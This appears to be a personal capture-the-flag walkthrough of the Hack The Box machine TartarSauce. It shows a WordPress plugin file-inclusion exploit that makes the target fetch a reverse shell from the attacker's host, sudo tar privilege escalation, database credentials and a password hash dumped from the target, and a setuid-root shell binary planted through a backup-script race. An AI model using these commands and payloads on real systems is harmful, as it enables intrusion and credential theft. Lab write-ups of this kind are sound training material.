







- Machine : https://app.hackthebox.com/machines/TartarSauce
- Reference : https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html
- Solved : 2025.3.4. (Tue) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.88
Performing quick port scan on 10.10.10.88...
Found open ports: 80
Performing detailed scan on 10.10.10.88...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-03 20:44 MST
Nmap scan report for 10.10.10.88
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-title: Landing Page

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.40 seconds
```

Only a single port is open : http(80)
Given the response, it's likely to use PHP.
`robots.txt` also exposes several entries.

### http(80)



It returns a large-size "tartar sauce" image.
##### /webservices/monstra-3.0.4/



According to the following [reference](https://www.exploit-db.com/exploits/52038), its CMS version has RCE exploit.
But it requires authentication.



There's a login page, but there's no use since I don't have any valid credential for now.
I tried `admin:admin` as a default credential and it worked.



I enumerated different functions on the dashboard, but I think it all seems not to be editable.

##### /webservices/other pages

All others pages are not loadable.
Instead, let's run `gobuster` under `/webservices`.

##### gobuster

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.88/webservices/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.88/webservices/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp                   (Status: 301) [Size: 319] [--> http://10.10.10.88/webservices/wp/] 
```

##### /webservices/wp



There's another page loaded, but it seems that it's not fully loaded.



Given the source code, I added the domain `tartarsauce.htb` on `/etc/hosts`.



Now the page is fully loaded.

```bash
┌──(kali㉿kali)-[~]
└─$ wpscan --enumerate p,t,u -t 500 --url http://tartarsauce.htb/webservices/wp/ --api-token $(cat /opt/wpscan/api_token.txt)
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tartarsauce.htb/webservices/wp/ [10.10.10.88]
[+] Started: Mon Mar  3 23:58:47 2025

[+] We found 3 plugins:

[+] Name: akismet - v4.0.3
 |  Last updated: 2018-05-26T17:14:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
[!] The version is out of date, the latest version is 4.0.6

[+] Name: brute-force-login-protection - v1.5.3
 |  Latest version: 1.5.3 (up to date)
 |  Last updated: 2017-06-29T10:39:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt

[+] Name: gwolle-gb - v2.3.10
 |  Last updated: 2018-05-12T10:06:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
[!] The version is out of date, the latest version is 2.5.2

[+] Enumerating installed themes (only ones marked as popular) ...
```

There are 3 plugins found.


# Shell as `www-data`

### CVE-2015-8351 (RFI via gwolle-gb)

Among the plugins, `gwolle-gb` has a public Remote File Inclusion exploit :
https://www.exploit-db.com/exploits/38861

I opened a webserver using python on port 80.

```bash
┌──(kali㉿kali)-[~/htb/tar/php]
└─$ sudo python -m http.server 80                        
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then, I fetched the following URL to include the kali server.

```bash
┌──(kali㉿kali)-[~]
└─$ curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.3/
```

Then the webserver received a request to `/wp-load.php` page.

```bash
┌──(kali㉿kali)-[~/htb/tar/php]
└─$ sudo python -m http.server 80                        
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [04/Mar/2025 01:41:45] "GET /wp-load.php HTTP/1.0" 200 -
```

I did this again after creating `wp-load.php` file on the webroot directory.
I used `php-reverse-shell.php` file as its template and specified IP / ports.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.88] 59180
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 03:47:48 up 8 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I got `www-data`'s shell.


# Shell as `onuma`

### Enumeration

```bash
$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Current user can run `tar` command as `onuma` without password.
According to `gtobins`, there's a code snippet to spawn a shell as `onuma`.

### Privilege Escalation to `onuma`

```shell
$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names

id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
whoami
onuma
```


# Shell as `root`

### Enumeration

Let's run `LinPEAS` for enumeration.

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/html/webservices/wp/wp-admin/setup-config.php: $pwd = trim( wp_unslash( $_POST[ 'pwd' ] ) );
/var/www/html/webservices/wp/wp-admin/setup-config.php: define('DB_PASSWORD', $pwd);
/var/www/html/webservices/wp/wp-admin/setup-config.php: define('DB_USER', $uname);
/var/www/html/webservices/wp/wp-config.php:define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
/var/www/html/webservices/wp/wp-config.php:define('DB_USER', 'wpuser');


╔══════════╣ System timers
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#timers     
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Tue 2025-03-04 04:09:13 EST  1min 24s left Tue 2025-03-04 04:04:13 EST  3min 35s ago backuperer.timer             backuperer.service
Tue 2025-03-04 06:07:22 EST  1h 59min left Tue 2025-03-04 03:39:01 EST  28min ago    apt-daily-upgrade.timer      apt-daily-upgrade.service                                               
Tue 2025-03-04 08:56:42 EST  4h 48min left Tue 2025-03-04 03:39:01 EST  28min ago    apt-daily.timer              apt-daily.service                                                       
Wed 2025-03-05 03:54:05 EST  23h left      Tue 2025-03-04 03:54:05 EST  13min ago    systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service                                          
n/a                          n/a           n/a                          n/a          snapd.refresh.timer                                                                                  
n/a                          n/a           n/a                          n/a          snapd.snap-repair.timer      snapd.snap-repair.service                                               
n/a                          n/a           n/a                          n/a          ureadahead-stop.timer        ureadahead-stop.service   
```

Two things are found.
- mysql credential is found : `wpuser` : `w0rdpr3$$d@t@b@$3@cc3$$`
- `backuperer.timer` is running.

##### mysql

```bash
onuma@TartarSauce:/$ mysql -u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'show databases;'
<-u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'show databases;'                  
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wp                 |
+--------------------+
onuma@TartarSauce:/$ mysql -u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'use wp;show tables;'
<-u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'use wp;show tables;'              
mysql: [Warning] Using a password on the command line interface can be insecure.
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_gwolle_gb_entries  |
| wp_gwolle_gb_log      |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
onuma@TartarSauce:/$ mysql -u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'use wp;select * from wp_users;'
<-u wpuser -p'w0rdpr3$$d@t@b@$3@cc3$$' -e 'use wp;select * from wp_users;'   
mysql: [Warning] Using a password on the command line interface can be insecure.
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
```

Successfully extracted `wpadmin`'s hash, but there's no use to obtain this credential.

##### backuperer timer

I ran `pspy` to observe.

```swift
2025/03/04 08:16:18 CMD: UID=0     PID=6399   | /bin/bash /usr/sbin/backuperer 
2025/03/04 08:16:18 CMD: UID=0     PID=6400   | /bin/bash /usr/sbin/backuperer 
2025/03/04 08:16:18 CMD: UID=0     PID=6401   | /bin/bash /usr/sbin/backuperer 
```

I opened the script file.

```bash
onuma@TartarSauce:/$ cat /usr/sbin/backuperer
cat /usr/sbin/backuperer
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Let me break down the script.
- `/bin/rm -rf $tmpdir/.* $check` : 
  It empties `/var/tmp`, and `/var/tmp/check` directory first.
- `/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &` :
  It archives `/var/www/html` directory to `/var/tmp` with random `SHA` hashed name.
- `/bin/sleep 30` :
  Wait for 30 seconds.
- `/bin/tar -zxvf $tmpfile -C $check` :
  Extract files from `$tmpfile`.
- `integrity_chk() {/usr/bin/diff -r $basedir $check$basedir}` :
  Function to compare original `/var/www/html` and `/var/tmp/.{SHA1 hased}`.
- Then it returns a response based on the integrity check result.

I focused on the 30 seconds right after the archiving.
It allows any `tar` archive file stored as `$tmpfile`.
If I can replace the `$tmpfile` before it's being extracted, then I can get the files extracted by `root` user.
If I can include SUID file in it, I can get it run by the target `root`.

First, let's install packages required to compile it on kali.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ sudo apt-get install gcc-i686-linux-gnu g++-i686-linux-gnu
```

Then I prepared a code to spawn a shell.

```cpp
┌──(kali㉿kali)-[~/htb/tar]
└─$ cat setuid_shell.c 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
        setreuid(0,0);
        execve("/bin/sh", NULL, NULL);
}
```

Then, I compiled it.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ i686-linux-gnu-gcc -m32 -o setuid_shell setuid_shell.c 


┌──(kali㉿kali)-[~/htb/tar]
└─$ ls setuid_shell
setuid_shell
```

Create a directory which has a same depth as `/var/www/html`.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ mkdir -p var/www/html 
```

Then, let's copy the binary into the directory.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ cp setuid_shell var/www/html
```

Then, grant SETUID permission.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ chmod 6555 var/www/html/setuid_shell 


┌──(kali㉿kali)-[~/htb/tar]
└─$ ls -al var/www/html/setuid_shell 
-r-sr-sr-x 1 kali kali 15048 Mar  4 08:00 var/www/html/setuid_shell
```

Archive it.

```bash
┌──(kali㉿kali)-[~/htb/tar]
└─$ tar -zcvf setuid.tar.gz var
var/
var/www/
var/www/html/
var/www/html/setuid_shell
```

Then upload this to the target server. (Via python webserver)

```bash
onuma@TartarSauce:/var/tmp$ wget http://10.10.14.3:8000/setuid.tar.gz
wget http://10.10.14.3:8000/setuid.tar.gz
--2025-03-04 10:07:01--  http://10.10.14.3:8000/setuid.tar.gz
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2542 (2.5K) [application/gzip]
Saving to: 'setuid.tar.gz'

setuid.tar.gz       100%[===================>]   2.48K  --.-KB/s    in 0s      

2025-03-04 10:07:02 (468 MB/s) - 'setuid.tar.gz' saved [2542/2542]
```


> 이제 5분 주기로 타이머 실행될때 파일 바꿔치기 하고 check 폴더안에 쉘 실행하면 끝인데,, 아키텍쳐 이슈로 여기서 종료.
> 나중에 윈도우 PC서 다시 시도 필요!